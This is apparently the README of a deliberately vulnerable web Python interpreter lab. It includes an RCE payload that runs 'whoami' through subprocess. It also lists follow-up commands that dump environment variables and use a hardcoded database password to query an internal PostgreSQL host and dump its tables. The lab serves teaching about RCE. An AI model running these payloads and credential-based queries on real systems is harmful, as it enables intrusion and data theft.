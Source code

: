 # WebPy

WebPy is a web-based Python interpreter designed to demonstrate and mitigate
Remote Code Execution (RCE) vulnerabilities.

## Install dependencies

```bash
pip install -r requirements.txt
```

## Execute the app

```bash
gunicorn -w 4 -b 0.0.0.0:80 app:app
```

## Payload

```python
import subprocess
result = subprocess.run('whoami', shell=True, capture_output=True, text=True)
print(result.stdout)
print(result.stderr)
```

## List of shell commands to execute

```bash
env
apt install postgresql-client -y
export PGPASSWORD=p@ssword123
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -c "\l"
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -d webpydb -c "\dt"
PGPASSWORD=p@ssword123 psql -U admin -h 10.105.253.110 -p 5432 -d postgres -d webpydb -c "SELECT * FROM executions;"
```

## References

https://kubernetes.io/docs/concepts/services-networking/service/#environment-variables